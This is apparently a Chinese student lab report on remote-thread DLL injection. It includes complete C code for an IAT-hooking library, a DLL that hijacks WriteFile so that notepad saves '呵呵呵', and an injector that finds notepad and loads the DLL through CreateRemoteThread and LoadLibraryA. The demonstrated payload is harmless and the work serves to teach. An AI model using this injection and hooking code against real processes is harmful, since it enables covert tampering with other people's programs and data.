





# 大作业

## 实验内容

1、查文档，研究远程线程方式注入dll的实例代码的实现原理。

2、运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行。

3、整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。

4、实际操作：notepad每次写入文件时，保存时会自动存为“呵呵呵”

## 实验步骤

### DLL注入

- 了解`notepad.exe`在保存文件的时候会调用什么`API`函数，通过导入表，进行合理猜测。

  

  在导入表中查看关键字：`save`、`file`、`write`等

  发现notepad保存数据使用的是`writefile`函数

  

  

  

- 构造一个假的writefile()函数,写成一个HookFindFileW.cpp文件

  ```c
  #include <windows.h>
  LONG IATHook(
  	__in_opt void* pImageBase,
  	__in_opt const char* pszImportDllName,
  	__in const char* pszRoutineName,
  	__in void* pFakeRoutine,
  	__out HANDLE* phHook
  );
  
  LONG UnIATHook(__in HANDLE hHook);
  
  void* GetIATHookOrign(__in HANDLE hHook);
  
  typedef bool(__stdcall *LPFN_WriteFile)(
  	HANDLE       hFile,
  	LPCVOID      lpBuffer,
  	DWORD        nNumberOfBytesToWrite,
  	LPDWORD      lpNumberOfBytesWritten,
  	LPOVERLAPPED lpOverlapped
  	);
  
  HANDLE g_hHook_WriteFile = NULL;
  
  
  bool __stdcall Fake_WriteFile(
  	HANDLE       hFile,
  	LPCVOID      lpBuffer,
  	DWORD        nNumberOfBytesToWrite,
  	LPDWORD      lpNumberOfBytesWritten,
  	LPOVERLAPPED lpOverlapped
  ) {
  	LPFN_WriteFile fnOrigin =  (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
      
  	char DataBuffer[] = "呵呵呵";
  	DWORD dwBytesToWrite = (DWORD)strlen(DataBuffer);
  	DWORD dwBytesWritten = 0;
  
  	return fnOrigin(hFile, DataBuffer, dwBytesToWrite, &dwBytesWritten, lpOverlapped);
  }
  
  
  BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
  	switch (dwReason) {
  	case DLL_PROCESS_ATTACH:
  		IATHook(
  			GetModuleHandle(NULL),
  			"kernel32.dll",
  			"WriteFile",
  			Fake_WriteFile,
  			&g_hHook_WriteFile
  		);
  		break;
  	case DLL_PROCESS_DETACH:
  		UnIATHook(g_hHook_WriteFile);
  		break;
  	}
  	return TRUE;
  }
  ```

  

- 编写IAT.cpp文件

  ```c
  #ifdef _RING0
    #include <ntddk.h>
    #include <ntimage.h>
  #else
    #include <windows.h>
    #include <stdlib.h>
  #endif //#ifdef _RING0
  
  
  //////////////////////////////////////////////////////////////////////////
  
  typedef struct _IATHOOK_BLOCK 
  {
  	void* pOrigin;
  
  	void* pImageBase;
  	const char* pszImportDllName; 
  	const char* pszRoutineName;   
  
  	void* pFake;
  
  }IATHOOK_BLOCK;
  
  
  //////////////////////////////////////////////////////////////////////////
  
  void* _IATHook_Alloc(__in ULONG nNeedSize)
  {
  	void* pMemory = NULL;
  
  	do
  	{
  		if (0 == nNeedSize)
  		{
  			break;
  		}
  
  #ifdef _RING0
  		pMemory = ExAllocatePoolWithTag(NonPagedPool, nNeedSize, 'iath');
  
  #else
  		pMemory = malloc(nNeedSize);
  #endif // #ifdef _RING0
  
  		if (NULL == pMemory)
  		{
  			break;
  		}
  
  		RtlZeroMemory(pMemory, nNeedSize);
  
  	} while (FALSE);
  
  	return pMemory;
  }
  
  
  ULONG _IATHook_Free(__in void* pMemory)
  {
  
  	do
  	{
  		if (NULL == pMemory)
  		{
  			break;
  		}
  
  #ifdef _RING0
  		ExFreePool(pMemory);
  
  #else
  		free(pMemory);
  #endif // #ifdef _RING0
  
  		pMemory = NULL;
  
  	} while (FALSE);
  
  	return 0;
  }
  
  //////////////////////////////////////////////////////////////////////////
  #ifdef _RING0
  
  
  #ifndef LOWORD
    #define LOWORD(l)           ((USHORT)((ULONG_PTR)(l) & 0xffff))
  #endif // #ifndef LOWORD
  
  
  void* _IATHook_InterlockedExchangePointer(__in void* pAddress, __in void* pValue)
  {
  	void* pWriteableAddr = NULL;
  	PMDL	pNewMDL = NULL;
  	void* pOld = NULL;
  
  	do
  	{
  		if ((NULL == pAddress))
  		{
  			break;
  		}
  
  		if (!NT_SUCCESS(MmIsAddressValid(pAddress)))
  		{
  			break;
  		}
  
  		pNewMDL = IoAllocateMdl(pAddress, sizeof(void*), FALSE, FALSE, NULL);
  		if (pNewMDL == NULL)
  		{
  			break;
  		}
  
  		__try
  		{
  			MmProbeAndLockPages(pNewMDL, KernelMode, IoWriteAccess);
  
  			pNewMDL->MdlFlags |= MDL_MAPPING_CAN_FAIL;
  
  			pWriteableAddr = MmMapLockedPagesSpecifyCache(
  				pNewMDL,
  				KernelMode,
  				MmNonCached,
  				NULL,
  				FALSE,
  				HighPagePriority
  			);
  
  			//pWriteableAddr = MmMapLockedPages(pNewMDL, KernelMode);
  		}
  		__except (EXCEPTION_EXECUTE_HANDLER)
  		{
  			break;
  		}
  
  		if (pWriteableAddr == NULL)
  		{
  			MmUnlockPages(pNewMDL);
  			IoFreeMdl(pNewMDL);
  
  			break;
  		}
  
  		pOld = InterlockedExchangePointer(pWriteableAddr, pValue);
  
  		MmUnmapLockedPages(pWriteableAddr, pNewMDL);
  		MmUnlockPages(pNewMDL);
  		IoFreeMdl(pNewMDL);
  
  	} while (FALSE);
  
  	return pOld;
  }
  
  
  //////////////////////////////////////////////////////////////////////////
  #else
  
  void* _IATHook_InterlockedExchangePointer(__in void* pAddress, __in void* pValue)
  {
  	void* pWriteableAddr = NULL;
  	void* nOldValue = NULL;
  	ULONG	nOldProtect = 0;
  	BOOL	bFlag = FALSE;
  
  	do
  	{
  		if ((NULL == pAddress))
  		{
  			break;
  		}
  
  		bFlag = VirtualProtect(pAddress, sizeof(void*), PAGE_EXECUTE_READWRITE, &nOldProtect);
  		if (!bFlag)
  		{
  			break;
  		}
  		pWriteableAddr = pAddress;
  
  		nOldValue = InterlockedExchangePointer((PVOID volatile*)pWriteableAddr, pValue);
  
  		VirtualProtect(pAddress, sizeof(void*), nOldProtect, &nOldProtect);
  
  	} while (FALSE);
  
  	return nOldValue;
  }
  
  #endif // #ifdef _RING0
  
  
  LONG _IATHook_Single
  (
  	__in IATHOOK_BLOCK* pHookBlock,
  	__in IMAGE_IMPORT_DESCRIPTOR* pImportDescriptor,
  	__in BOOLEAN bHook
  )
  {
  	LONG				nFinalRet = -1;
  
  	IMAGE_THUNK_DATA* pOriginThunk = NULL;
  	IMAGE_THUNK_DATA* pRealThunk = NULL;
  
  	IMAGE_IMPORT_BY_NAME* pImportByName = NULL;
  
  	do
  	{
  		pOriginThunk = (IMAGE_THUNK_DATA*)((UCHAR*)pHookBlock->pImageBase + pImportDescriptor->OriginalFirstThunk);
  		pRealThunk = (IMAGE_THUNK_DATA*)((UCHAR*)pHookBlock->pImageBase + pImportDescriptor->FirstThunk);
  
  		for (; 0 != pOriginThunk->u1.Function; pOriginThunk++, pRealThunk++)
  		{
  			if (IMAGE_ORDINAL_FLAG == (pOriginThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG))
  			{
  				if ((USHORT)pHookBlock->pszRoutineName == LOWORD(pOriginThunk->u1.Ordinal))
  				{
  					if (bHook)
  					{
  						pHookBlock->pOrigin = (void*)pRealThunk->u1.Function;
  						_IATHook_InterlockedExchangePointer((void**)& pRealThunk->u1.Function, pHookBlock->pFake);
  					}
  					else
  					{
  						_IATHook_InterlockedExchangePointer((void**)& pRealThunk->u1.Function, pHookBlock->pOrigin);
  					}
  
  					nFinalRet = 0;
  					break;
  				}
  			}
  			else
  			{
  				pImportByName = (IMAGE_IMPORT_BY_NAME*)((char*)pHookBlock->pImageBase + pOriginThunk->u1.AddressOfData);
  
  				if (0 == _stricmp(pImportByName->Name, pHookBlock->pszRoutineName))
  				{
  					if (bHook)
  					{
  						pHookBlock->pOrigin = (void*)pRealThunk->u1.Function;
  						_IATHook_InterlockedExchangePointer((void**)& pRealThunk->u1.Function, pHookBlock->pFake);
  					}
  					else
  					{
  						_IATHook_InterlockedExchangePointer((void**)& pRealThunk->u1.Function, pHookBlock->pOrigin);
  					}
  
  					nFinalRet = 0;
  
  					break;
  				}
  			}
  
  		}
  
  	} while (FALSE);
  
  	return nFinalRet;
  }
  
  
  LONG _IATHook_Internal(__in IATHOOK_BLOCK* pHookBlock, __in BOOLEAN bHook)
  {
  	LONG				nFinalRet = -1;
  	LONG				nRet = -1;
  	IMAGE_DOS_HEADER* pDosHeader = NULL;
  	IMAGE_NT_HEADERS* pNTHeaders = NULL;
  
  	IMAGE_IMPORT_DESCRIPTOR* pImportDescriptor = NULL;
  	char* pszImportDllName = NULL;
  
  
  	do
  	{
  		if (NULL == pHookBlock)
  		{
  			break;
  		}
  
  		pDosHeader = (IMAGE_DOS_HEADER*)pHookBlock->pImageBase;
  		if (IMAGE_DOS_SIGNATURE != pDosHeader->e_magic)
  		{
  			break;
  		}
  
  		pNTHeaders = (IMAGE_NT_HEADERS*)((UCHAR*)pHookBlock->pImageBase + pDosHeader->e_lfanew);
  		if (IMAGE_NT_SIGNATURE != pNTHeaders->Signature)
  		{
  			break;
  		}
  
  		if (0 == pNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress)
  		{
  			break;
  		}
  
  		if (0 == pNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].Size)
  		{
  			break;
  		}
  
  		pImportDescriptor = (IMAGE_IMPORT_DESCRIPTOR*)((UCHAR*)pHookBlock->pImageBase + pNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);
  
  
  		// Find pszRoutineName in every Import descriptor
  		nFinalRet = -1;
  
  		for (; (pImportDescriptor->Name != 0); pImportDescriptor++)
  		{
  			pszImportDllName = (char*)pHookBlock->pImageBase + pImportDescriptor->Name;
  
  			if (NULL != pHookBlock->pszImportDllName)
  			{
  				if (0 != _stricmp(pszImportDllName, pHookBlock->pszImportDllName))
  				{
  					continue;
  				}
  			}
  
  			nRet = _IATHook_Single(
  				pHookBlock,
  				pImportDescriptor,
  				bHook
  			);
  
  			if (0 == nRet)
  			{
  				nFinalRet = 0;
  				break;
  			}
  		}
  
  	} while (FALSE);
  
  	return nFinalRet;
  }
  
  LONG IATHook
  (
  	__in void* pImageBase,
  	__in_opt const char* pszImportDllName,
  	__in const char* pszRoutineName,
  	__in void* pFakeRoutine,
  	__out HANDLE* Param_phHook
  )
  {
  	LONG				nFinalRet = -1;
  	IATHOOK_BLOCK* pHookBlock = NULL;
  
  
  	do
  	{
  		if ((NULL == pImageBase) || (NULL == pszRoutineName) || (NULL == pFakeRoutine))
  		{
  			break;
  		}
  
  		pHookBlock = (IATHOOK_BLOCK*)_IATHook_Alloc(sizeof(IATHOOK_BLOCK));
  		if (NULL == pHookBlock)
  		{
  			break;
  		}
  		RtlZeroMemory(pHookBlock, sizeof(IATHOOK_BLOCK));
  
  		pHookBlock->pImageBase = pImageBase;
  		pHookBlock->pszImportDllName = pszImportDllName;
  		pHookBlock->pszRoutineName = pszRoutineName;
  		pHookBlock->pFake = pFakeRoutine;
  
  		__try
  		{
  			nFinalRet = _IATHook_Internal(pHookBlock, TRUE);
  		}
  		__except (EXCEPTION_EXECUTE_HANDLER)
  		{
  			nFinalRet = -1;
  		}
  
  	} while (FALSE);
  
  	if (0 != nFinalRet)
  	{
  		if (NULL != pHookBlock)
  		{
  			_IATHook_Free(pHookBlock);
  			pHookBlock = NULL;
  		}
  	}
  
  	if (NULL != Param_phHook)
  	{
  		*Param_phHook = pHookBlock;
  	}
  
  	return nFinalRet;
  }
  
  LONG UnIATHook(__in HANDLE hHook)
  {
  	IATHOOK_BLOCK* pHookBlock = (IATHOOK_BLOCK*)hHook;
  	LONG				nFinalRet = -1;
  
  	do
  	{
  		if (NULL == pHookBlock)
  		{
  			break;
  		}
  
  		__try
  		{
  			nFinalRet = _IATHook_Internal(pHookBlock, FALSE);
  		}
  		__except (EXCEPTION_EXECUTE_HANDLER)
  		{
  			nFinalRet = -1;
  		}
  
  	} while (FALSE);
  
  	if (NULL != pHookBlock)
  	{
  		_IATHook_Free(pHookBlock);
  		pHookBlock = NULL;
  	}
  
  	return nFinalRet;
  }
  
  void* GetIATHookOrign(__in HANDLE hHook)
  {
  	IATHOOK_BLOCK* pHookBlock = (IATHOOK_BLOCK*)hHook;
  	void* pOrigin = NULL;
  
  	do
  	{
  		if (NULL == pHookBlock)
  		{
  			break;
  		}
  
  		pOrigin = pHookBlock->pOrigin;
  
  	} while (FALSE);
  
  	return pOrigin;
  }
  ```

  

- 生成一个dll文件

  

  

### 构造 Inject 文件InjectFindFileW.cpp

```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int main() {
	char szDllName[] = "C:\\HookWritefile.dll";
	char szExeName[] = "notepad.exe";

	/* Step 1 */
	PROCESSENTRY32 ProcessEntry = {};
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
	DWORD dwProcessId = 0;
	while (bRet) {
		if (strcmp(szExeName, ProcessEntry.szExeFile) == 0) {
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
	if (0 == dwProcessId) {
		printf("找不到进程\n");
		return 1;
	}

	/* Step 2 */
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (0 == hProcess) {
		printf("无法打开进程\n");
		return 1;
	}

	/* Step 3 */
	size_t length = strlen(szDllName) + 1;
	char* pszDllFile = (char*)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
	if (0 == pszDllFile) {
		printf("远程空间分配失败\n");
		return 1;
	}

	/* Step 4 */
	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		printf("远程空间写入失败\n");
		return 1;
	}

	/* Step 5 */
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		printf("LoadLibraryA函数地址获取失败\n");
		return 1;
	}

	/* Step 6 */
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		printf("远程线程创建失败\n");
		return 1;
	}

	/* Step 7 */
	WaitForSingleObject(hThread, INFINITE);
	printf("远程线程执行完毕!\n");

	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
	CloseHandle(hThread);
	CloseHandle(hProcess);

	return 0;
}
```


## 实验结果

- 打开notepad，注意打开的时c盘下Windows文件中system32文件中的notepad，即32位的记事本，输入“嘿嘿嘿”

- 运行程序

  

- 保存后打开，发现记事本内容变为“呵呵呵”，实验成功

  


## 实验问题

一开始总是远程线程创建失败。后发现错误：直接从程序中找到的`notepad.exe`，这个`exe`文件不是32位的，需要从`C:\Windows\System32`文件下找到32位的`notepad.exe`进行实验。


